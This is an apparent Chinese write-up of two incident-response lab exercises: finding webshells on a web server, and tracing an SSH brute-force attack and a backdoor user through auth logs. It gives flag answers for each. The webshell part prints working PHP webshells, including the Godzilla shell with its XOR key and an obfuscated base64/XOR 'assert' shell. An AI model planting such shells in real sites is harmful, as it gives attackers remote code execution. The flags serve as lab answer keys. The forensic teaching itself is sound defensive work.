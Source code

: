 ## 第一章 应急响应-webshell查杀

### 简介

> ```
> 靶机账号密码 root xjwebshell
> 1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
> 2.黑客使用的什么工具的shell github地址的md5 flag{md5}
> 3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
> 4.黑客免杀马完整路径 md5 flag{md5}
> ```

### 1.黑客webshell里面的flag

```bash
grep -nr "eval" .
```

```
./include/gz.php:23:            eval($payload);
./include/Db/.Mysqli.php:22:            eval($payload);
./shell.php:1:<?php phpinfo();@eval($_REQUEST[1]);?>
```

### 2.黑客使用的什么工具的shell

查看`gz.php`，发现是哥斯拉的特征

https://github.com/BeichenDream/Godzilla

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K) {
	for ($i=0;$i
	        $c = $K[$i+1&15];                                                                                                                                                 
	        $D[$i] = $D[$i]^$c;
}
return $D;
}
$payloadName='payload';                                                                                                                                                   
$key='3c6e0b8a9c15224a';                                                                                                                                                  
$data=file_get_contents("php://input");                                                                                                                                   
if ($data!==false) {
$data=encode($data,$key);                                                                                                                                             
    if (isset($_SESSION[$payloadName])) {
	$payload=encode($_SESSION[$payloadName],$key);                                                                                                                    
	        if (strpos($payload,"getBasicsInfo")===false) {
		$payload=encode($payload,$key);
	}
	eval($payload);                                                                                                                                           
	        echo encode(@run($data),$key);
} else {
	if (strpos($data,"getBasicsInfo")!==false) {
		$_SESSION[$payloadName]=encode($data,$key);
	}
}
}
```

### 3.黑客隐藏shell的完整路径

```
/var/www/html/include/Db/.Mysqli.php
```

### 4.黑客免杀马完整路径

查看apache的日志

```bash
cat /var/log/apache2/access.log
```



```
192.168.200.2 - - [02/Aug/2023:08:56:10 +0000] "GET /wap/top.php?fuc=ERsDHgEUC1hI&func2=ser HTTP/1.1" 500 185 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0"
192.168.200.2 - - [02/Aug/2023:08:56:24 +0000] "GET /wap/top.php?fuc=ERsDHgEUC1hI&func2=sert HTTP/1.1" 200 203 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0"
```

查看top.php的内容

```php
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);
```

## 第一章 应急响应-Linux日志分析

### 简介

> ```
> 账号root密码linuxrz
> ssh root@IP
> 1.有多少IP在爆破主机ssh的root帐号，如果有多个使用","分割
> 2.ssh爆破成功登陆的IP是多少，如果有多个使用","分割
> 3.爆破用户名字典是什么？如果有多个使用","分割
> 4.登陆成功的IP共爆破了多少次
> 5.黑客登陆主机后新建了一个后门用户，用户名是多少
> ```

### 1.有多少IP在爆破主机ssh的root帐号

在Debian和Ubuntu等发行版中，SSH登录信息可能保存在`/var/log/auth.log`文件中

这里信息放在了`/var/log/auth.log.1`中

```bash
cat /var/log/auth.log.1 | gerp -a "Failed password for root"
```

```
Aug  1 07:42:32 linux-rz sshd[7471]: Failed password for root from 192.168.200.32 port 51888 ssh2
Aug  1 07:47:13 linux-rz sshd[7497]: Failed password for root from 192.168.200.2 port 34703 ssh2
Aug  1 07:47:18 linux-rz sshd[7499]: Failed password for root from 192.168.200.2 port 46671 ssh2
Aug  1 07:47:20 linux-rz sshd[7501]: Failed password for root from 192.168.200.2 port 39967 ssh2
Aug  1 07:47:22 linux-rz sshd[7503]: Failed password for root from 192.168.200.2 port 46647 ssh2
Aug  1 07:52:59 linux-rz sshd[7606]: Failed password for root from 192.168.200.31 port 40364 ssh2
```

然后就是将每行的IP取出来

```bash
cat /var/log/auth.log.1 | grep -a "Failed password for root"|awk '{print $11}'
```

然后去除重复行，排序

```bash
cat /var/log/auth.log.1 | grep -a "Failed password for root"|awk '{print $11}' | uniq -c |sort -nr
```

> uniq的-c选项是统计重复行行数
>
> sort的-n是按数字排序，-n是进行倒序

`flag{192.168.200.2,192.168.200.32,192.168.200.31}`

### 2.ssh爆破成功登陆的IP是多少

```bash
cat auth.log.1 | grep -a "Accepted password for root" |awk '{print $11}'
```

`flag{192.168.200.2}`

### 3.爆破用户名字典是什么？

```bash
cat auth.log.1 | grep -a "Failed password for"| perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'| uniq -c | sort -nr
```

`flag{user,hello,root,test3,test2,test1}`

### 4.登陆成功的IP共爆破了多少次

登录成功的IP是`192.168.200.2`，用户名是`root`

```bash
cat auth.log.1| grep -a "Failed password for"|grep -a "root"|grep "192.168.200.2"
```

`flag{4}`

### 5.黑客登陆主机后新建了一个后门用户，用户名是多少

查看`/etc/passwd`

```bash
cat /etc/passwd
```

或者

```bash
cat auth.log.1| grep -a "new user"
```

`flag{test2}`
